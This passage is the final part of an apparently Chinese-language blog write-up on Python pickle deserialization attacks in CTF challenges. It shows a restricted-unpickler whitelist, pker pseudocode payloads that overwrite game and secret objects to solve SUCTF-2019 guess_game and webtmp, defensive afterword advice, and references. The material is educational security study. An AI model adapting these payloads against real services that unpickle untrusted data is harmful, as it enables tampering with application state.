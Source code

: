 #### SUCTF-2019:guess_game

题目是一个猜数字游戏，每次对输入的数据反序列化作为ticket，并与随机生成的ticket进行对比，猜对10次就给flag。`find_class`函数限制了`guess_game`模块并禁止了下划线（魔术方法、变量）：

```
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        # Only allow safe classes
        if "guess_game" == module[0:10] and "__" not in name:
            return getattr(sys.modules[module], name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```

直接作弊用pickle改`game.ticket`为猜测的ticket，然后把`win_count`和`round_count`都改为9（因为还要进行一轮，`round_count`必须大于10才会出现输赢判断，而给flag的依据是`win_count`等于10轮），pickle伪代码：

```
ticket=INST('guess_game.Ticket','Ticket',(1))
game=GLOBAL('guess_game','game')
game.win_count=9
game.round_count=9
game.curr_ticket=ticket

return ticket
```

#### 高校战疫网络安全分享赛: webtmp

解析思路见前文手写opcode的CTF实战部分，pker代码为：

```
secret=GLOBAL('__main__', 'secret') # python的执行文件被解析为__main__对象，secret在该对象从属下
secret.name='1'
secret.category='2'
animal = INST('__main__', 'Animal','1','2')
return animal
```

## 后记

- 为了解决pickle反序列化的问题，官方给出了使用改写 `Unpickler.find_class()` 方法，引入白名单的方式来解决，并且给出警告：对于允许反序列化的对象必须要保持警惕。对于开发者而言，如果实在要给用户反序列化的权限，最好使用双白名单限制`module`和`name`并充分考虑到白名单中的各模块和各函数是否有危险。
- CTF中，pickle相关的题目一般考察对python本身（如对魔术方法和属性等）的深度理解，利用过程可以很巧妙。
- 由于pickle“只能赋值，不能查值”的特性，唯一能够根据键值查询的操作就是`find_class`函数，即`c`、`i`等opcode，如何根据特有的魔术方法、属性等找到突破口是关键；此外，在利用过程中，往往会借助`getattr`、`get`等函数。
- 借助pker可以比较方便的编写pickle的opcode，该工具是做题利器。
- 本文涉及的CTF题目已整理至github：https://github.com/HACHp1/pickle_ctf_collection

## 参考资料

- [官方文档：pickle --- Python 对象序列化](https://docs.python.org/zh-cn/3/library/pickle.html)
- [How pickle works in Python](https://rushter.com/blog/pickle-serialization-internals/)
- [blackhat-Sour Pickle: A serialised exploitation guide in one part](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)
- [一篇文章带你理解漏洞之 Python 反序列化漏洞](https://www.k0rz3n.com/2018/11/12/一篇文章带你理解漏洞之Python 反序列化漏洞/)
- [通过AST来构造Pickle opcode](https://xz.aliyun.com/t/7012)
- [pker](https://github.com/eddieivan01/pker)
- [Code-Breaking中的两个Python沙箱](https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html)
- [从Balsn CTF pyshv学习python反序列化](https://www.smi1e.top/从balsn-ctf-pyshv学习python反序列化/)
- [利用python反序列化覆盖秘钥——watevrCTF-2019: Pickle Store的第二种解法](https://xz.aliyun.com/t/7320)
